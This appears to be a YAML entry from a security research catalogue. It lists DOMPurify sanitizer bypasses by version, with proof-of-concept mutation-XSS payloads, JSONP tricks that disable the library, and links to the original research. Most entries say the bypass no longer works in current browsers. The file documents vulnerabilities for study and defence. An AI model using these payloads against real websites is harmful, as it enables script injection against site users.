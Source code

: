 ```yaml
---
description: DOMPurify - a DOM-only, super-fast, uber-tolerant XSS sanitizer for HTML, MathML and SVG. DOMPurify works with a secure default, but offers a lot of configurability and hooks. https://cure53.de/purify
github: cure53/DOMPurify
gadgets:
  Latest:
    authors:
      - twitter:parrot
      - twitter:xssjp
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - script-tag
      - src-attr
      - before-lib-load
      - func-call-parameter
    pocs:
      - description: |
          In case it is possible to execute limited arbitrary javascript code, like on a `/[\w\s.]/` jsonp endpoint, it is possible to `delete document.implementation.__proto__.createHTMLDocument` before DOMPurify is loaded to disable DOMPurify.
        code: |
          <!-- user input -->
          <!-- Act like this is a JSONP endpoint -->
          <script src="[current-location]/assets/xss/dompurify-jsonp-1.js?callback=delete document.implementation.__proto__.createHTMLDocument"></script>

          <script src="https://cdnjs.cloudflare.com/ajax/libs/dompurify/3.2.6/purify.min.js"></script>
          <script>
            // user input
            const clean = DOMPurify.sanitize("<img src=x onerror=alert(document.domain)>");
            document.body.innerHTML = clean;
          </script>
      - description: |
          The same can be done after DOMPurify is loaded, by deleting `DOMPurify.isSupported`.
        code: |
          <script src="https://cdnjs.cloudflare.com/ajax/libs/dompurify/3.2.6/purify.min.js"></script>

          <!-- user input -->
          <!-- Act like this is a JSONP endpoint -->
          <script src="[current-location]/assets/xss/dompurify-jsonp-2.js?callback=delete DOMPurify.isSupported"></script>

          <script>
            // user input
            const clean = DOMPurify.sanitize("<img src=x onerror=alert(document.domain)>");
            document.body.innerHTML = clean;
          </script>
    more-info: |
      **Root Cause**

      Source: <a target="_blank" href="https://github.com/cure53/DOMPurify/blob/ec86d9068d4f5a2505b85e12cff9921f304bdda7/src/purify.ts#L193">https://github.com/cure53/DOMPurify/blob/ec86d9068d4f5a2505b85e12cff9921f304bdda7/src/purify.ts#L193</a>

      ```javascript
      DOMPurify.isSupported =
        typeof entries === 'function' &&
        typeof getParentNode === 'function' &&
        implementation &&
        implementation.createHTMLDocument !== undefined;
      ```

      Source: <a target="_blank" href="https://github.com/cure53/DOMPurify/blob/ec86d9068d4f5a2505b85e12cff9921f304bdda7/src/purify.ts#L1479">https://github.com/cure53/DOMPurify/blob/ec86d9068d4f5a2505b85e12cff9921f304bdda7/src/purify.ts#L1479</a>

      ```javascript
      if (!DOMPurify.isSupported) {
        return dirty;
      }
      ```
    links:
      - https://hackmd.io/@hakatashi/HkgG02U4t
  ≤3.1.2:
    authors:
      - twitter:kevin_mizu
    tags:
      - func-call-parameter
    pocs:
      - description: |
          Default configuration bypass.
          
          This bypass **no longer works** since `<` and `>` are now encoded when serializing a DOM Tree (<a target="_blank" href="https://github.com/whatwg/html/pull/6362">spec</a>, <a target="_blank" href="https://developer.chrome.com/blog/escape-attributes">chromium</a>, <a target="_blank" href="https://webkit.org/blog/17092/release-notes-for-safari-technology-preview-221/#:~:text=Fixed%20escaping">safari</a>, firefox) making "attribute" based mXSS no longer possible...
        code: |
          <form id="x ">
          <r*504>
          <a>
            <svg>
              <desc>
                <svg>
                  <image>
                    <a>
                      <desc>
                        <svg>
                          <image></image>
                        </svg>
                      </desc>
                    </a>
                  </image>
                  <style><a id="</style><img src=x onerror=alert(1)>"></a></style>
                </svg>
              </desc>
            </svg>
          </a>
          </form>
          <input form="x" name="__depth">
        preview: https://yeswehack.github.io/Dom-Explorer/shared?id=27b201c4-9ba9-454a-b92c-ad6f87168040
    links:
      - https://mizu.re/post/exploring-the-dompurify-library-bypasses-and-fixes#dompurify-3.1.2-bypass
  ≤3.1.1:
    authors:
      - twitter:kevin_mizu
    tags:
      - func-call-parameter
    pocs:
      - description: |
          Default configuration bypass.
          
          This bypass **no longer works** since `<` and `>` are now encoded when serializing a DOM Tree (<a target="_blank" href="https://github.com/whatwg/html/pull/6362">spec</a>, <a target="_blank" href="https://developer.chrome.com/blog/escape-attributes">chromium</a>, <a target="_blank" href="https://webkit.org/blog/17092/release-notes-for-safari-technology-preview-221/#:~:text=Fixed%20escaping">safari</a>, firefox) making "attribute" based mXSS no longer possible...
        code: |
          <div*200>
          <form><input name="parentNode">
          <div*200>
          <form></form><form><input name="parentNode">
          <div*105>
          <table>
            <caption>
              <svg>
                <desc>
                  <table><caption></caption></table>
                </desc>
                <style><a title="</svg></style><img src onerror=alert(1)>"></a></style>
                </svg>
            </caption>
          </table>
        preview: https://yeswehack.github.io/Dom-Explorer/shared?id=bc4910dd-3c0f-4125-952b-20320468ef2d
    links:
      - https://mizu.re/post/exploring-the-dompurify-library-bypasses-and-fixes#dompurify-3.1.1-bypass
  ≤3.1.0:
    authors:
      - twitter:IcesFont
    tags:
      - func-call-parameter
    pocs:
      - description: |
          Default configuration bypass.
          
          This bypass **no longer works** since `<` and `>` are now encoded when serializing a DOM Tree (<a target="_blank" href="https://github.com/whatwg/html/pull/6362">spec</a>, <a target="_blank" href="https://developer.chrome.com/blog/escape-attributes">chromium</a>, <a target="_blank" href="https://webkit.org/blog/17092/release-notes-for-safari-technology-preview-221/#:~:text=Fixed%20escaping">safari</a>, firefox) making "attribute" based mXSS no longer possible...
        code: |
          <div*506>
          <table>
            <caption>
              <svg>
                <title>
                  <table><caption></caption></table>
                </title>
                <style><a id="</style><img src=x onerror=alert()>"></a></style>
              </svg>
            </caption>
          </table>
        preview: https://yeswehack.github.io/Dom-Explorer/shared?id=aeb6a690-58b9-47c6-b2ca-99c07f9db43b
    links:
      - https://mizu.re/post/exploring-the-dompurify-library-bypasses-and-fixes#dompurify-3.1.0-bypass
  ≤2.2.2:
    tags:
      - func-call-parameter
    pocs:
      - description: |
          Default configuration bypass.
          
          This bypass **no longer works** since `<` and `>` are now encoded when serializing a DOM Tree (<a target="_blank" href="https://github.com/whatwg/html/pull/6362">spec</a>, <a target="_blank" href="https://developer.chrome.com/blog/escape-attributes">chromium</a>, <a target="_blank" href="https://webkit.org/blog/17092/release-notes-for-safari-technology-preview-221/#:~:text=Fixed%20escaping">safari</a>, firefox) making "attribute" based mXSS no longer possible...
        code: |
          <math><mtext><h1><a><h6></a></h6><mglyph><svg><mtext><style><a title="</style><img src onerror='alert(1)'>"></style></h1>
        preview: https://yeswehack.github.io/Dom-Explorer/shared?id=15b5b74c-1c36-4df7-9bc6-2fccfc891683
    links:
      - https://github.com/cure53/DOMPurify/commit/8ab47b0a694022b396e30b7f643e28971f75f5d8
  ≤2.2.0:
    tags:
      - func-call-parameter
    pocs:
      - description: |
          Default configuration bypass.
          
          This bypass **no longer works** since `<` and `>` are now encoded when serializing a DOM Tree (<a target="_blank" href="https://github.com/whatwg/html/pull/6362">spec</a>, <a target="_blank" href="https://developer.chrome.com/blog/escape-attributes">chromium</a>, <a target="_blank" href="https://webkit.org/blog/17092/release-notes-for-safari-technology-preview-221/#:~:text=Fixed%20escaping">safari</a>, firefox) making "attribute" based mXSS no longer possible...
        code: |
          <form><math><mtext></form><form><mglyph><svg><mtext><style><path id="</style><img onerror=alert(1) src>">
        preview: https://yeswehack.github.io/Dom-Explorer/shared?id=eff07c77-918a-4399-b92f-732095e3e9d4
    links:
      - https://github.com/cure53/DOMPurify/issues/482
      - https://vovohelo.medium.com/from-svg-and-back-yet-another-mutation-xss-via-namespace-confusion-for-dompurify-2-2-2-bypass-5d9ae8b1878f
  ≤2.0.16:
    authors:
      - twitter:garethheyes
    tags:
      - func-call-parameter
    pocs:
      - description: |
          Default configuration bypass.
          
          This bypass **no longer works** since `<` and `>` are now encoded when serializing a DOM Tree (<a target="_blank" href="https://github.com/whatwg/html/pull/6362">spec</a>, <a target="_blank" href="https://developer.chrome.com/blog/escape-attributes">chromium</a>, <a target="_blank" href="https://webkit.org/blog/17092/release-notes-for-safari-technology-preview-221/#:~:text=Fixed%20escaping">safari</a>, firefox) making "attribute" based mXSS no longer possible...
        code: |
          <math><mtext><table><mglyph><style><!--</style><img title="--&gt;&lt;/mglyph&gt;&lt;img&Tab;src=1&Tab;onerror=alert(1)&gt;">
        preview: https://yeswehack.github.io/Dom-Explorer/shared?id=249819f1-732f-4edf-b7ba-866ebcf358d8
    links:
      - https://portswigger.net/research/bypassing-dompurify-again-with-mutation-xss
  ≤2.0.15:
    authors:
      - twitter:securitymb
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - func-call-parameter
    pocs:
      - description: Default configuration bypass.
        code: |
          <form><math><mtext></form><form><mglyph><style></math><img src onerror=alert(1)>
        preview: https://yeswehack.github.io/Dom-Explorer/shared?id=a0b5393e-c9b1-4717-90cc-de2bb405afa4
      - code: |
          <math><mtext><table><mglyph><style><math><table id="</table>"><img src onerror=alert(1)">
        preview: https://yeswehack.github.io/Dom-Explorer/shared?id=36a7d20f-f042-44fe-bdd9-11b97773517e
    links:
      - https://portswigger.net/research/bypassing-dompurify-again-with-mutation-xss
  ≤2.0.0:
    cve: CVE-2019-16728
    authors:
      - twitter:securitymb
    tags:
      - func-call-parameter
    pocs:
      - description: |
          Default configuration bypass.
          
          This bypass **no longer works** since `<` and `>` are now encoded when serializing a DOM Tree (<a target="_blank" href="https://github.com/whatwg/html/pull/6362">spec</a>, <a target="_blank" href="https://developer.chrome.com/blog/escape-attributes">chromium</a>, <a target="_blank" href="https://webkit.org/blog/17092/release-notes-for-safari-technology-preview-221/#:~:text=Fixed%20escaping">safari</a>, firefox) making "attribute" based mXSS no longer possible...
        code: |
          <svg></p><style><a id="</style><img src=1 onerror=alert(1)>">
        preview: false
      - code: |
          <math></p><style><a id="</style><img src=1 onerror=alert(1)>">
        preview: false
    links:
      - https://research.securitum.com/dompurify-bypass-using-mxss/
---
```

